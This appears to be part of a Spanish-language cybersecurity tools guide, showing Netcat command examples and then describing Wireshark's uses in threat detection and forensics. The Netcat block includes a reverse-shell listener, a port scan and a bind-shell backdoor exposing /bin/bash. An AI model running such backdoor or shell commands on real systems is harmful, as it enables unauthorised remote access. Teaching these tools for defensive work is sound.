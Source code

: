 Estos son algunos ejemplos que puedes realizar con Netcat:
```bash
# Listener para una shell inversa
nc -nlvp 4444

# Conectarse a un puerto remoto
nc -nv 192.168.1.100 80

# Escaneo de puertos
nc -zvn 192.168.1.100 1-1000 2>&1 | grep succeeded

# Transferencia de archivos (Receptor)
nc -l -p 1234 > received_file.txt
# Transferencia de archivos (Emisor)
nc -w 3 192.168.1.100 1234 < file_to_send.txt

# Crear una puerta trasera (solo para fines educativos)
nc -l -p 4444 -e /bin/bash

# Conexiones UDP
nc -u -l -p 1234

# Creación de peticiones HTTP
echo -e "GET / HTTP/1.1\r\nHost: target.com\r\n\r\n" | nc target.com 80
```

### 🦈 Wireshark / Tshark
![wireshark placeholder](wire.jpg)
Esta aplicación es un analizador de protocolos de red gratuito y open source que __captura, inspecciona y analiza el tráfico de datos en tiempo real__. Se utiliza como herramienta primordial para obtener una profunda visión del tráfico de la red, permitiendo a profesionales del área a detectar y analizar amenazas potenciales.
- _Usos de Wireshark en Ciberseguridad_ : Tal como se mencionó anteriormente, se utiliza para __detección de amenazas__ al identificar patrones inusuales o sospechosos, como escaneos de puertos, conexiones inesperadas o intentos de inicio de sesiones fallidos. Tambien realizar un __análisis forense__ al analizar el tráfico posterior a un ataque, tambien permite __analizar malware__ tras infecciones para entender como este se comunico con servidores externos. Por otro lado, realizar __pruebas de vulnerabilidades y auditorías de red__ para confirmar que las politicas de seguridad se esten aplicando correctamente.
